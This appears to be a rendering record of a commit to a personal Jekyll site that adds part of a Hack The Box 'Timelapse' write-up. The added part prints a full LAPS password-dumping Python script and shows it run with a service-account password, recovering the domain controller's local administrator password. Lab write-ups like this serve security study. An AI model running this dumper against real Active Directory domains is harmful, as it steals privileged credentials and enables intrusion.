

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/htb/timelapse.md, in a window 1280 px wide and 1400 px high, scrolled down 8980 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 9610 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update timelapse.md

````diff
--- a/_pages/htb/timelapse.md
+++ b/_pages/htb/timelapse.md
@@ -368,3 +368,49 @@ SessionOption $so -scriptblock {whoami}
 get-aduser -filter * -properties *
 exit
 ```
+
+Add `10.10.11.152 timelapse.htb` to /etc/hosts then we can use [laps.py](https://raw.githubusercontent.com/n00py/LAPSDumper/main/laps.py)
+
+```
+[connor@fedora timelapse]$ cat laps.py
+#!/usr/bin/env python3
+from ldap3 import ALL, Server, Connection, NTLM, extend, SUBTREE
+import argparse
+
+parser = argparse.ArgumentParser(description='Dump LAPS Passwords')
+parser.add_argument('-u','--username',  help='username for LDAP', required=True)
+parser.add_argument('-p','--password',  help='password for LDAP (or LM:NT hash)',required=True)
+parser.add_argument('-l','--ldapserver', help='LDAP server (or domain)', required=False)
+parser.add_argument('-d','--domain', help='Domain', required=True)
+
+def base_creator(domain):
+    search_base = ""
+    base = domain.split(".")
+    for b in base:
+        search_base += "DC=" + b + ","
+    return search_base[:-1]
+
+
+def main():
+    args = parser.parse_args()
+    if args.ldapserver:
+        s = Server(args.ldapserver, get_info=ALL)
+    else:
+        s = Server(args.domain, get_info=ALL)
+    c = Connection(s, user=args.domain + "\\" + args.username, password=args.password, authentication=NTLM, auto_bind=True)
+    try:
+        c.search(search_base=base_creator(args.domain), search_filter='(&(objectCategory=computer)(ms-MCS-AdmPwd=*))',attributes=['ms-MCS-AdmPwd','SAMAccountname'])
+        for entry in c.entries:
+                print (str(entry['sAMAccountName']) +":"+ str(entry['ms-Mcs-AdmPwd']))
+    except Exception as ex:
+        if ex.args[0] == "invalid attribute type ms-MCS-AdmPwd":
+                print("This domain does not have LAPS configured")
+        else:
+                print(ex)
+
+
+if __name__ == "__main__":
+    main()
+[connor@fedora timelapse]$ python laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb
+DC01$:[},r9L86NT,/%+gE]).61X-9
+```
````
